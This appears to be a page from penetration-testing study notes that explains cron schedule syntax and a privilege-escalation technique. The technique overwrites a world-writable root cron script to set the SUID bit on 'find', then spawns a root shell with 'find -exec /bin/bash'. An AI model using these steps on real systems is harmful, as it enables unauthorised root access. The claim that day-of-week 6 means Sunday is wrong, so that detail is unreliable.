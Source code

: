 # 4.4.3 CronJobs

## CronJobs

<details>

<summary>What is a CronJob?</summary>

**CronJobs** is a scheduled task or command that is automatically executed at specified intervals on a Unix-like operating system. The name "cron" comes from the Greek word "chronos," meaning time, and it is a time-based job scheduler in Unix-like operating systems.

Cron jobs are commonly used for automating repetitive tasks, system maintenance, or any task that needs to be performed at specific intervals. These tasks can include things like running scripts, backing up data, updating databases, or any other routine maintenance.

The schedule for a cron job is defined using a cron expression, which consists of five fields representing the minute, hour, day of the month, month, and day of the week. For example, a cron expression like "0 2 \* \* \*" would indicate a job that runs at 2:00 AM every day.

Here is a breakdown of the cron expression fields:

1st \*: Minute (0 - 59)

2nd \*: Hour (0 - 23)

3rd \*: Day of the month (1 - 31)

4th \*: Month (1 - 12)

5th \*: Day of the week (0 - 6, where both 0 and 6 represent Sunday).

After this there's a username (root) and path of command to execute (program path) and eventually an argument (arg1).

</details>

#### Example of CronJob definition

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

This is an example of CronJob in python language that execute a bash command on the system:

```python
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /home/new_user/disk_clean* ')
except:
    sys.exit()
```

E.g. considering that CronJob has maximum permissions (777):

```bash
*/1 *   * * *   root    /home/new_user/disk_cleaner.py
```

we can modify python script cronjob and execute command to escalate privilege for a normal user:

os.system(~~'rm -r /home/new\_user/disk\_clean\* ')~~ -> 'chmod u+s /usr/bin/find '

waiting 1 minute new\_user obtain SUID permissions for find command (ls -l /usr/bin/find) and executing **`find`** command we'll gain root privilege:

```bash
find /home -exec "/bin/bash" \;
```
